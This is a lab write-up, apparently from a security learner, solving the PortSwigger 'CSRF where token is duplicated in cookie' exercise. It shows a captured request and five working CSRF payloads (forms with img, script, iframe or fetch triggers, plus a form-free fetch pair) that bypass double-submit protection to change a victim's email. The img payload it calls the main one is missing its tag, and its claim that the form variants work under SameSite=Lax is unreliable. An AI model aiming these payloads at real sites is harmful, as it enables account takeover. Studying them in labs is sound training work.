

# Lab: CSRF where token is duplicated in cookie

| | |
|---|---|
| **Платформа / Событие** | PortSwigger Web Security Academy |
| **Категория** | csrf |
| **Сложность** | — |
| **Статус** | done |
| **Дата решения** | 2026-11-15 |
| **Ссылка на таск** | — |

Level: `PRACTITIONER`

## Description

This lab's email change functionality is vulnerable to CSRF. It attempts to use the insecure "double submit" CSRF prevention technique.

> To solve the lab, use your exploit server to host an HTML page that uses a CSRF attack to change the viewer's email address.

You can log in to your own account using the following credentials: `wiener:peter`

# Solution

Перехватывая запрос аутентификации либо замены почты замечаем важную деталь:
```http
POST /my-account/change-email HTTP/2
Host: 0a4b003b03b9bfbd81587aa80078003b.web-security-academy.net
Cookie: csrf=JII4Swl8nvXVELsSfnMxvXreFO7puIut; session=P02ZlTMFUV9yCVQGAXVNcMAZ1cGDZVfW
...

email=change%40mail.com&csrf=JII4Swl8nvXVELsSfnMxvXreFO7puIut
```

Куки `csrf` и поле `csrf` совпадают.
Рождается гипотеза, а что если проверка валидности лишь в совпадении?

Тогда достаточно взять прошлый пейлоад (с CRLF-обходом) и лишь прописать любое совпадение:
```html
<form action="https://0a4b003b03b9bfbd81587aa80078003b.web-security-academy.net/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="test12&#64;test&#46;com" />
      <input type="hidden" name="csrf" value="TESTING123" />
      <input type="submit" value="Submit request" />
</form>
      

```

И он прошел на ура:


Главная идея:
> Форма подставляет все необходимые поля и указывает куки, чтобы куки и поле совпали.
> img по ссылке требует `GET` запрос, этот запрос и устанавливает куки
> но тк по ссылке расположено не изображение, а `html`-файл -- происходит ошибка
> и в связи с ошибкой отправляется наша вредоносная форма. Дешево и сердито.

---

# Прочие мысли

> Но это не единственный payload, рассмотрим все идеи:
> 1. Основной payload: `` + `onerror`. (транспорт: `img`-запрос ставит куку, `onerror` отправляет форму)
>    ```html
>    <html>
>        <body>
>        <form action="https://LAB.net/my-account/change-email" method="POST">
>            <input type="hidden" name="csrf" value="hacked" />
>            <input type="hidden" name="email" value="hacker@evil-user.net" />
>        </form>
>        
>        </body>
>    </html>
>    ```
>
> 2. `<script>` + `onload` (транспорт: `script`-запрос ставит куку, `onload` отправляет форму):
>    ```html
>    <html>
>      <body>
>        <form action="https://LAB.net/my-account/change-email" method="POST">
>          <input type="hidden" name="csrf" value="hacked" />
>          <input type="hidden" name="email" value="hacker@evil-user.net" />
>        </form>
>        <script src="https://LAB.net/?csrf=hacked" onload="document.forms[0].submit()"></script>
>      </body>
>    </html>
>    ```
>    Ответ сервера — `HTML`, а не валидный `JS`, поэтому сработает `onload` (загрузка ресурса завершилась)
>    — выполнение упадёт уже после. В отличие от `img`,
>    здесь правильное событие именно onload, потому что "не-скрипт" — это не `error` в смысле события загрузки.
>
> 3. `<iframe>` + `onload` (транспорт: `iframe` грузит страницу-кукоустановщик; `onload` отправляет форму):
>    ```html
>    <html>
>      <body>
>        <form action="https://LAB.net/my-account/change-email" method="POST">
>          <input type="hidden" name="csrf" value="hacked" />
>          <input type="hidden" name="email" value="hacker@evil-user.net" />
>        </form>
>        <iframe src="https://LAB.net/?csrf=hacked" onload="document.forms[0].submit()" style="display:none"></iframe>
>      </body>
>    </html>
>    ```
>    Самый "уверенный" вариант: `onload iframe` означает "документ загрузился до конца",
>    то есть ответ сервера (и его `Set-Cookie`) гарантированно обработан браузером до сабмита.
>
> 4. `fetch` + сабмит по цепочке (транспорт: `fetch` ставит куку, промис отправляет форму):
>    ```html
>    <html>
>      <body>
>        <form action="https://LAB.net/my-account/change-email" method="POST">
>          <input type="hidden" name="csrf" value="hacked" />
>          <input type="hidden" name="email" value="hacker@evil-user.net" />
>        </form>
>        <script>
>          fetch("https://LAB.net/?csrf=hacked")
>            .finally(() => document.forms[0].submit());
>        </script>
>      </body>
>    </html>
>    ```
>    Здесь `finally`, а не `then` нарочно: неважно, упадёт ли чтение ответа по `CORS` — `Set-Cookie`
>    от кросс-доменного ответа браузер всё равно применяет (куки не подчиняются `CORS`),
>    так что даже "упавший" `fetch` оставит куку установленной. Это самый "`JS`-нативный"
>    транспорт — и самый интересный для комментирования в райтапе.
>
> 5. два запроса, вообще без формы (транспорт: `fetch` дважды, с `credentials`):
>    ```html
>    <html>
>      <body>
>        <script>
>          fetch("https://LAB.net/?csrf=hacked")
>            .finally(() =>
>              fetch("https://LAB.net/my-account/change-email", {
>                method: "POST",
>                credentials: "include",
>                headers: { "Content-Type": "application/x-www-form-urlencoded" },
>                body: "csrf=hacked&email=hacker@evil-user.net"
>              })
>            );
>        </script>
>      </body>
>    </html>
>    ```
>    Это уже не `CSRF`-форма, а полноценный фейковый запрос из `JS`: куку ставим первым `fetch`'ем,
>    `POST` отправляем вторым с `credentials: "include"`.
>    Здесь же и тонкость, которую стоит заметить в райтапе: если бы у сессии жертвы стоял `SameSite=Lax/Strict`,
>    браузер не приложил бы куку к кросс-доменному `fetch` — и атака бы сдохла. В этой лабе `SameSite`
>    не блокирует, поэтому работает. Форма-варианты (1–4) с `SameSite=Lax` тоже выживают,
>    потому что `top-level POST navigation` — отдельная история, у них другие правила.
